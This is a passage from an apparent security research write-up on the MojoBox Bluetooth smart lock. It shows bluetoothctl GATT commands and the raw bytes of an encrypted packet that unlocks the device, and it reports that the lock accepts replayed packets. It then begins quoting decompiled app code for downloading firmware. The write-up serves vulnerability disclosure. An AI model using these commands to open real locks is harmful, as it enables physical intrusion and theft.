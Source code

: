 ![Characteristics](/assets/img/2023-03-15/2023-03-15-characteristics.png){: .mx-auto.d-block :}

~~~
[MojoBox-023516]# gatt.select-attribute ff02
[MojoBox-023516:/service000c/char000f]# gatt.notify on
[CHG] Attribute /org/bluez/hci0/dev_DF_10_10_02_35_16/service000c/char000f Notifying: yes
Notify started
~~~

Now we generate a new valid encrypted packet with our Java application and send it to the MojoBox. Note that we have to split the command in two requests, the first one is 20 Bytes and the second one is 9Bytes.

~~~

[MojoBox-023516:/service000c/char000d]# gatt.write "0x68 0x01 0x18 0x28 0xFC 0x08 0xE5 0xB9 0xDA 0xDB 0xCE 0x21 0x62 0x1B 0x2A 0xF9 0xBE 0xFB 0x1E 0xE9"
Attempting to write /org/bluez/hci0/dev_DF_10_10_02_35_16/service000c/char000d
[MojoBox-023516:/service000c/char000d]# gatt.write "0xA0 0x13 0xEE 0x11 0x94 0x31 0x7D 0xDB 0x16"
Attempting to write /org/bluez/hci0/dev_DF_10_10_02_35_16/service000c/char000d
~~~

**And voilà, the lock opens!** 

![Opens](/assets/img/2023-03-15/2023-03-15-opens.gif){: .mx-auto.d-block :}


That’s not it! We can also send the same packet multiple times, **confirming that MojoBox is vulnerable to replay attack**. The oldest valid packet I tried is almost one week old and still does its job!

## Downloading MojoLock firmware for future analysis

In the resources folder of the decompiled APK we can find the file _index.bundle.android_, a file generated by React Native, a framework for developing cross-platform mobile applications using JavaScript and React. This file contains the JavaScript source code of the mobile app along with the information for downloading the firmware file for the firmware upgrade of MojoBox.

Specifically we are interested in the following function:

```javascript
        asyncGetFirmwareFile: function(t) {
            return o.default.async(function(n) {
                for (;;) switch (n.prev = n.next) {
                    case 0:
                        return n.abrupt("return", new Promise(function(n) {
                            var s = t.environment,
                                o = t.email,
                                c = t.authToken,
                                l = t.lockId;
                            return t.RNFetchBlob.config({
                                fileCache: !0,
                                timeout: 3e4
```